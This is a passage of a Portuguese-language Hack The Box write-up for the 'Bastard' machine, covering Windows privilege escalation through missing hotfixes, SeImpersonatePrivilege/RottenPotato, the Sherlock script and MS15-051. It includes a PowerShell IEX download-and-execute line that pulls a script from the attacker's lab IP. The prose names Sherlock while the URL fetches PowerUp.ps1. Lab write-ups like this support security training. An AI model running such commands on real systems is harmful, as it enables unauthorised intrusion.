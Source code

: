 Bom, agora chega de brincadeira, já mostramos muitas maneiras diferentes de se explorar isso. Vamos iniciar a escalação de privilégio

Vamos rodar diversas ferramentas pra escalar privilégio nessa máquina. Mas a primeira coisa que devemos fazer é executar o `systeminfo`, isso para verificarmos se temos ou não hotfixes instaladas. Por ai geralmente podemos deduzir se podemos fazer a escalação de privilégio por kernel ou não

Verificamos que não temos Hotfixes instaladas, então já é um grande indicativo que podemos explorar por kernel

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_sys.png)

Outra coisa que geralmente vemos em máquinas windows é o token `SeImpersonatePrivilege` habilitado, se ele estiver, possivelmente podemos executar o `RottenPotato` e conseguir um shell de administrador da máquina

Aqui verificamos que temos sim esse token habilitado! Então mais a frente vamos explorar

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_sys1.png)

## Rodando o Sherlock

Primeiro vamos executar o `Sherlock` pra ver o que conseguimos tirar de proveito dele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_p.png)

Aqui está ele, ele está desatualizado, mas mesmo assim conseguimos tirar proveito

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_p1.png)

Baixamos ele para nossa Kali

> https://github.com/rasta-mouse/Sherlock

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_p3.png)

Passamos ele para a máquina windows

> IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.117/PowerUp.ps1')

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_p2.png)

Damos o comando `Find-AllVulns` para executar todas as possibilidades da aplicação

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_p4.png)

Encontramos várias, aqui é teste pra ver quais funcionam

Agora vamos testar essa aqui, a `MS15-051`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_p5.png)

### MS15-051

Bom, vamos pesquisar exploits para ele então
